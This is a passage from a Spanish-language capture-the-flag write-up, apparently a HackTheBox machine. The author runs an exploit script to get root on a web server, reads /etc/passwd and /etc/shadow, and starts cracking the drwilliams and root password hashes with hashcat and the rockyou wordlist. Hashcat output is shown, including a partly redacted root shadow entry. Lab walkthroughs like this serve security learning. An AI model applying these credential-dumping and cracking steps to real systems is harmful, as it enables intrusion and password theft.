 chmod +x <exploit.sh>

y lo ejecutamos 

./exploit.sh

Obtendremos el acceso a root del web server

hacemos un cat /etc/passwd para ver a los usuarios
podemos ver a l usuario drwilliams

procedemos a ver el el /etc/shadow

donde podemos ver el hash de drwilliams y root

lo guardamos en content

procedemos a crackear el has con hashcat

❯ hashcat hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 4.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.7, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 5800H with Radeon Graphics, 2765/5594 MB (1024 MB allocatable), 16MCU

Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashfile 'hash' on line 2 (root:$...eobZ1dzDs..dD:19612:0:99999:7:::): Token length exception

* Token length exception: 1/2 hashes
  This error happens if the wrong hash type is specified, if the hashes are
  malformed, or if input is otherwise not as expected (for example, if the
  --username option is used but no username is present)

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.
